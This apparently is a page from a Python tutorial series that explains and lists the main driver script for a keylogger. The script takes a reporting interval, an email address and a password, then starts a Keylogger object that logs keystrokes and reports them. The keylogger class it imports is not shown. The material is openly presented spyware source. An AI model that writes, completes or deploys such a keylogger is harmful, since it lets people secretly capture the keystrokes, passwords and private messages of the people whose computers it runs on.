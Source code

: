 ```yaml
---
permalink: /python_101/keylogger/main.html
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


## This script invokes all methods and classes used by the keylogger.


- We make the code modular and much easy to read seperating the keylogger class and main files. 

- We use this class to invoke methods from the keylogger class to log and report.


### Code:

```python
#!/usr/bin/env python

import argparse
# import filename
import keylogger


# Parse Args
options = keylogger.get_arguments()
print(keylogger.banner)
# new object definition for class "Keylogger"
my_keylogger = keylogger.Keylogger(int(options.interval), str(options.email), str(options.password))
# Use the start method
my_keylogger.start()
```